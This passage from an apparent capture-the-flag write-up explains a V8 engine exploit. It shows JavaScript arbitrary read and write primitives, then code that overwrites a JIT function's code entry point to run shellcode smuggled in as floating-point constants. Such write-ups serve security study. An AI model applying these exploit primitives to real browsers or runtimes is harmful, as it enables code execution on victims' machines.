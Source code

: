 Now we can change the address part of the second value in the structure to read or write to any memory, this gives us arbitrary read and write.

```js
function arb_write(addr,val){
  temp_addr[1]=itof((0x1fffen<<32n)+addr-8n);
  fake_object[0]=itof(val);
}

function arb_read(addr){
  temp_addr[1]=itof((0x1fffen<<32n)+addr-8n);
  return ftoi(fake_object[0]);
}
```

So what's next? How do we escape the v8 sandbox and get RIP control?

If we look at the build arguments provided, we can see that `v8_enable_external_code_space` is set to `false`. On default (set to true), the code pointer it stored in a seperate region than the v8 heap. Now that its disabled, the code pointer is still there in v8 heap region.
You can refer to this [blog](https://mem2019.github.io/jekyll/update/2022/02/06/DiceCTF-Memory-Hole.html) for detailed explanation about this.

To simply put, Jitted Function objects have a `code` pointer. At an offset to this address we have `code_entry_point` pointer. This consists of the instructions which are going to be executed when the function is called. So if we overwrite that entry point value, we can hijack the control flow.

```js
pwn_addr = addrof(pwn);
var code = lower(arb_read(pwn_addr+0xcn));
var code_entry_rwx = arb_read(code+0x14n);
arb_write(code+0x14n,code_entry_rwx+0x60n);
```

We smuggle the shellcode into the jitted function by converting it into floating-point numbers so that it is stored in hexadecimal form in memory. So we overwrite the code entry point to starting of the smuggled shellcode.

![pwned](wasminator/exp.gif)
